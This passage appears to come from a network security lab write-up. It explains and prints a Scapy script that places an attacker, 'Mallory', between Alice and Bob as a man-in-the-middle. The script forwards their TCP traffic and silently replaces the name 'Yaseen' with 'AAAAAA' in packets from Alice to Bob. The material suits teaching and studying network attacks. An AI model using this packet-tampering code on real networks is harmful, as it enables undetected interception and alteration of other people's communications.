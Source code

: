 
We proceed to execute the script to initiate the Man-In-The-Middle (MITM) attack.

This script is designed to intercept and modify TCP packets between two hosts—Alice and Bob—using Scapy, a powerful Python-based tool for network packet manipulation and sniffing. Here's a breakdown of its functionality and the underlying logic:

1. **Bidirectional Traffic Forwarding**: All TCP packets exchanged between Alice and Bob are captured and forwarded. This ensures the uninterrupted flow of communication, preserving the normal operation of their network interaction, although they are passing through Mallory.

2. **Selective Content Alteration**: Within this flow, the script scrutinizes packets from Alice to Bob for the presence of "Yaseen". Only these selected packets undergo modification, where "Yaseen" is replaced with a sequence of 'A's equal in length. This specific change is made to ensure the altered packets maintain their original size, preserving the TCP sequence and avoiding potential disruption of the session.

This approach allows Mallory to precisely control the modifications made to the communication between Alice and Bob, inserting or altering information in a way that's virtually undetectable, thus showcasing the stealth and specificity possible in network-level attacks.


```python
#!/usr/bin/env python3
from scapy.all import *


A_IP = "10.0.227.2"
B_IP = "10.0.227.4"
M_IP = "10.0.227.3"

A_MAC = "02:42:0a:00:e3:02"
B_MAC = "02:42:0a:00:e3:04"
M_MAC = "02:42:0a:00:e3:03"


def spoof_pkt(pkt):
    # if packet is coming from A to B
    if  pkt[IP].dst == B_IP and pkt[IP].src == A_IP and pkt[TCP].payload:
        
        
        newpkt = IP(bytes(pkt[IP]))
        
        del(newpkt.chksum) #remove checksum
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        
        
        # we check if the phrase Yaseen is in the packet
        # if it exists, we replace it with AAAAAA, otherwise, we forward the packet normally
        
        if b'Yaseen' in pkt[TCP].payload.load:
            newdata = pkt[TCP].payload.load.replace(b'Yaseen', b'A'*len('Yaseen'))
            newpkt = newpkt/newdata
            send(newpkt)
        else:
            send(newpkt/pkt[TCP].payload.load)
    
    #else if packet is comfing from B to A,forward it normally
    elif pkt[IP].dst == A_IP and pkt[IP].src == B_IP:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt)

# filter the packets that are not sent by the attacker, either from Bob to Alice or Alice to Bob (TCP only)
```